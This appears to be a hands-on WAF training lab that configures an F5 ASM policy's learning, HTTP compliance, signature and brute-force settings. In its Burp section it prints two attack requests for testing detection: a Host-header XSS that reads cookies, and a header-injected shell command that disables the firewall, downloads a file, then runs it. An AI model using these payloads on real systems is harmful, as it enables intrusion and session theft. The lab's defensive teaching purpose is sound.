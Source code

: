 Exercise 4.1: Transparent Policy 
----------------------------------------

Objective
~~~~~~~~~~
We created a transparent policy way back in Lab 1 to configure IPI and Geolocation. We then tested out the Threat Campaign signatures in Lab 3. Now we will explore and test some of the first things you should get familiar with when developing a WAF policy. 


- Review Learning & Blocking & Policy Building Process settings
- Implement HTTP Protocol Compliancy checks and test
- Test with a HTTP Protocol violation plus XSS attack
- Enable Server Technologies & Attack Signatures
- Review Reporting

**Bonus** - Review Login Page Protection and Brute Force Configuration protection. 
 

- Estimated time for completion **30** **minutes**.

Learning & Blocking & Policy Building
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Recall from Lab 1, that we used the Rapid Deployment Policy template to create our policy and we deployed it in manual learning mode. This means as violations and/or false positives occur, the system will make suggestions to modify the policy. The admin will manually evaluate the suggestions and Approve, Ignore or Delete them.  

#. Navigate to **Security > Application Security >  Policy Building > Traffic Learning** and explore each of the sections under **Traffic Learning Summary**. 
#. You will see many Suggestions and a **learning score** that the system assigns based on how many times it has seen an occurence and from what source. You can **Accept**, **Delete**, **Ignore** or **Export**  the suggestion. Always look very carefully at the suggested action before deciding on which action to take. It is also helpful to define a whitelist so that the policy can learn quicker and from known trusted sources. You generally do not want the system learning from random and/or hostile Internet traffic and making suggestions to relax the policy.   

.. image:: images/learning.png
  :width: 600 px

Policy Building Process
~~~~~~~~~~~~~~~~~~~~~~~~~~~

#. Click on the **Learning and Blocking Settings** tab at the top of the screen and expand the **Policy Building Process** section. Here you can see settings that this particular policy is using for is learning processes. Notice that **Trusted IP Addresses List** is empty. 
#. Click the little window icon next to **Trusted IP Addresses List** is empty.
#. This takes you to: **Security > Application Security > IP Addresses > IP Address Exceptions** Click **Create**. 
#. For IP Address: **10.10.10.0** and for Netmask: **255.255.255.0**. Check the box for **Policy Builder trusted IP** and click **Create** and **Apply Policy**.

.. image:: images/ip.png
  :width: 600 px

#. Navigate back to **Security > Application Security >  Policy Building > Learning and Blocking Settings** and expand the **Policy Building Process** section. Notice that our newly defined network is now a **Trusted IP**. This will greatly enhance the speed and quality of learning suggestions. 
#. Change the view from Basic to Advanced and review all the fine-grained configurations for the **Policy Building Process**.

.. image:: images/pbp.png
  :width: 600 px

**You now know how to define a trusted ip and configure the policy building process settings**

Enforcing HTTP Protocol Conpliance
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

#. Under **Learning and Blocking Settings** expand the **HTTP protocol compliance failed** section. Enforcing HTTP protocol compliance is a good practice and should not cause administrative burden. Notice we are already set to learn for most of the violations in case a webapp is poorly written or configured. By learning we will have the opportunity to weed out any false positives caused by HTTP Protocol Compliance violations prior to enabling blocking. 
#. Uncheck the box for learning under **Bad Host header Value** and check the **Enable** box.  
#. Check the box to enable learning for **Host header contains IP address**.
#. Hit **Save** at the bottom of the screen and then **Apply Policy** at the top of the screen. 

.. image:: images/http.png
  :width: 600 px

We have now told the system to not making any learning suggestions on bad host header values. We then enabled the default action as defined for **HTTP protocol compliance failed**. If we receive a match we will **Alarm** in Transparent Mode and **Block** if the policy was in Blocking Mode. 
We also told the sytem to start generating learning suggestions if we see any attempts to access the site via IP address instead of hostname.  

#. From Firefox on client01, load the insecureApp1 bookmark and refresh several times. 
#. Navigate to **Security > Application Security >  Policy Building > Traffic Learning** then scroll down to the bottom under **Suggestions** and notice the new learning suggestion for **Host header contains IP address** since we are browsing the site by IP and not hostname. 
#. If we accept this suggestion it will actually enable the HTTP Check for **Host header contains IP address**. Click **Accept** and **Apply Policy**
#. Return to the **Learning and Blocking Settings** tab at the top of the GUI to review the effect of your action. 
#. Notice that the **Enable** box is now checked for **Host header contains IP address**.

.. image:: images/enabled.png
  :width: 600 px

This means as violations occur you will now see them in the event logs. 

#. From Firefox on client01, load the insecureApp1 bookmark and refresh several times. 
#. Navigate to **Security > Event Logs > Application > Requests** and review the latest Sev3 alert. Notice the Violation type and then click on the **1** under Occurrences to see more information. 

.. image:: images/violation.png
  :width: 600 px

#. Close the Firefox browser. 

Burp'ing the App
~~~~~~~~~~~~~~~~

In this section we are going to use the free/community version of an excellent DAST tool; Burp. Unfortunately, the free version does not actually allow DAST but it is still an excellent tool for packet crafting and that's exactly how we are going to use it.
We will be manually sending two different attack types to demonstrate the protocol compliance features of ASM.

HTTP Compliancy Check - Bad Host Header Value
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

The **Bad Host Header Value** check is an HTTP Parser Attack and definitely something that should be implemented as part of **Good WAF Security**.

**Risk:**
If we allow bad host header values they can be used to Fuzz web servers and gather system information. Successful exploitation of this attack could allow for the execution of XSS arbitrary code.

#. Launch **Burp** from the dock and ignore the java warning. 

.. image:: images/burp.png

**DO NOT update**. 

#. Choose **Temporary Project** and click **Next** and then click **Start Burp**. 

#. Click the **Repeater** tab and paste in the following http request (**Replace password with the password provided by the instructor.**) and click **Send**.
#. A popup window will appear to Configure the target details. For host use: **10.1.10.145**. For port use: **443**. Check the **Use HTTPS** box. 
#. Click **Send**

|

XSS in HOST Header

::

  POST https://10.1.10.145/WebGoat/login HTTP/1.1
  User-Agent: BabyYoda
  Pragma: no-cache
  Cache-Control: no-cache
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 38
  Host: <script>alert(document.cookie);</script>

  username=f5student&password=password


.. image:: images/burpreq.png
  :width: 600 px

#. Browse to **Security > Event Logs > Application > Requests** and review the alert for this Sev5 attack. Note the alert severity is much higher (5) for this attack type due to several violations occuring.
#. Review all the details and then click the **3** under the **Attack Signature Detected** violation to see all of the staged XSS Attack Signatures that were triggered. 

Server Technologies & Attack Signatures
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

In this exercise we will examine server technologies which allow you to automatically discover server-side frameworks, web servers and operating systems. This feature helps when the backend technologies are not well known. The feature can be enabled to auto detect. You can also add the technologies that you know. Creating custom signature sets allows you to define what signature groupings work best for your needs.

#. Go to **Security > Application Security > Policy Building > Learning and Blocking Settings > Attack Signatures**
#. Review the Attack Signatures that were applied during policy creation from back in Lab 1. Notice that they are set to **Learn/Alarm/Block and Staging is enabled**. 
#. Locate Server Technologies and expand the option. Click **Enable Server Technology Detection**, click **Save** and then click the **New Window Icon** next to Server Technologies. 

.. image:: images/st.png
  :width: 600 px

#. Scroll down to **Advanced Settings > Server Technologies** and click in the box. Search for Linux since we know the server is running Linux. The system will display a box describing which new signature sets will be applied. Click **Confirm**. 

.. image:: images/ast.png
  :width: 600 px

**Make sure to Save and Apply Policy.**

#. Go to **Security > Application Security > Policy Building > Learning and Blocking Settings > Attack Signatures** and notice the new Unix/Linux Server Technology signature sets that were added to the policy. 

.. image:: images/unix.png
  :width: 600 px

#. Click **Change** and review all of the additional Signature Sets that you can add manually add to a policy. Click **Cancel**

Framework Attacks
~~~~~~~~~~~~~~~~~~~

Back in BURP navigate to the repeater tab and adjust the payload to the following and hit go. **Use the password provided by the instructor**

|

Framework Attack

::

  POST https://10.1.10.145/WebGoat/login HTTP/1.1
  User-Agent: ImperialProbeDroid
  Pragma: no-cache
  Cache-Control: no-cache
  Content-Type: /etc/init.d/iptables stop; service iptables stop; SuSEfirewall2 stop; reSuSEfirewall2 stop; cd /tmp; wget -c https://10.1.10.145:443/7; chmod 777 7; ./7;
  Content-Length: 38
  Host: DarthMaul

  username=f5student&password=password


#. Browse to **Security > Event Logs > Application > Requests** and look for the most recent Sev5 Event. Select the event, review the violations and click the **2** under Occurrences for the Attack signature detected violation.  
#. Click the little blue **i** and review the Attack Signature Details. We can see that this was a Systems based Unix/Linux Signature in staging mode. 

.. image:: images/systems.png
  :width: 600 px

We are now alerting on attacks aimed at Server Technologies. 

Review Reporting
~~~~~~~~~~~~~~~~~~
#. Navigate to **Security > Reporting > Application > Charts** and change the View By: to **Ip Intelligence** and review the chart. 
#. Change the chart type from Absolute to **Stacked**
#. Change the View By: to **Client IP Addresses**

.. image:: images/client_ip.png
  :width: 600 px

#. Change the Advanced Filter to: **Top Alarmed URLs**. 
#. Change the Advanced Filter to: **Top attacks in the last day** and View By: to **Client Countries**. 
#. Explore addtional charts that you can generate and export. 

.. image:: images/charts.png
  :width: 600 px

#. Navigate to **Security > Overview > Application > Traffic**

.. image:: images/overview.png
  :width: 600 px

Bonus
~~~~~~~~~~
Protecting a login page is a very important role for a WAF. While Brute Force attacks are on the decline, Credential Stuffing attacks have increased several times over in the past 5 years. In this lab we will go through the exercise of defining login page parameters and observe the configuration options. 

#. Navigate to **Security > Application Security > Sessions and Logins > Login Pages List**.
#. Configure the Login Page as show below and click **Create** and **Apply Policy**.
#. You would normally get these settings by interating with the application while using the Browser Developer tools to observe the various status codes and headers present in a valid vs invalid login. 

.. image:: images/login.png
  :width: 600 px

#. Navigate to **Security > Application Security > Brute Force Attack Prevention** and click **Create**. 
#. Select the Login Page that you just created. 
#. Review all of the configuration options available for protecting a Login Page from Brute Force and Credential Stuffing Attacks. 

.. image:: images/bf.png
  :width: 600 px

.. NOTE:: The security policy's enforcement mode is Transparent. Requests will not be blocked unless the enforcement mode is changed to Blocking on the Learning and Blocking Settings screen

This final lab was for demonstration purposes and no further action is necessary. You can just hit **Cancel** once you have reviewed all of the settings. 

**This completes Lab 4**




